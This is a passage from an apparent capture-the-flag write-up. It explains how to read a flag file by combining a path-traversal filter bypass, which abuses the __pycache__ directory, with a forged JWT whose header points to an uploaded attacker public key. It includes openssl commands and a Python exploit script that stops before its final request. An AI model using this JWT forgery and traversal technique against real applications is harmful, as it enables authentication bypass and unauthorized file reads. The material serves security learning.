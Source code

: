 
### Finding the path

After getting control of both of those variables, there is one last step before getting the flag.
The constructed path to the flag must be valid, and there is another factor to take into the account:

```python
sanitized_path = f'output/{upload_name}_{session["username"]}'
```

The "_" betweeen the 2 variables must be part of the path.
Since this is a python application, there will be a **__pycache__** directory at the root of the project.
This can be leveraged to construct the path: `output/../__pycache__/../flag.txt`.
As a result, the final values for the variables are:
+ `upload_name`: `..././_`, it must end in a "_" so it is a valid path by itself
+ `session["username"]`: `pycache__/../flag.txt`, no need for filter bypass since it is trusted due to **JWT**

## Putting it all together

With all of this gathered information, I can write a script that uploads my own public key to the server, forges a doctored **JWT** and tricks the application into returning the flag.
The steps are:
1. Generating a key pair:
```bash
$ openssl genrsa -out private.pem 1024
$ openssl rsa -in private.pem -pubout -out public.pem
```
2. Upload the key as an image and calculate its storage path with the MD5 hash
3. Forge a **JWT** with the username `pycache__/../flag.txt`
4. Upload an image, using that **JWT**, with the filename `..././_`

All of this can be accomplished with the following script:

```python
import requests
import hashlib
import jwt

URL = 'http://{APPLICATION_URL}'

# Upload key
name = 'img.jpg'
key = open("public.pem", "rb")
md5 = hashlib.md5(key.read()).hexdigest()
key_path = f'uploads/{md5}.jpeg'
key.close()

files = {'file': (name, open('public.pem', 'rb'))}
data = {'password': '1234', 'content': 'secret'}

s = requests.session()
s.get(URL)
r = s.post(URL + '/upload', files=files, data=data)


# Get flag
name = '..././_'
username = 'pycache__/../flag.txt'
priv = open("private.pem").read()
token = jwt.encode({'username': username}, priv, algorithm='RS256', headers={'pubkey': f'/app/{key_path}'})
s.cookies['session'] = token

```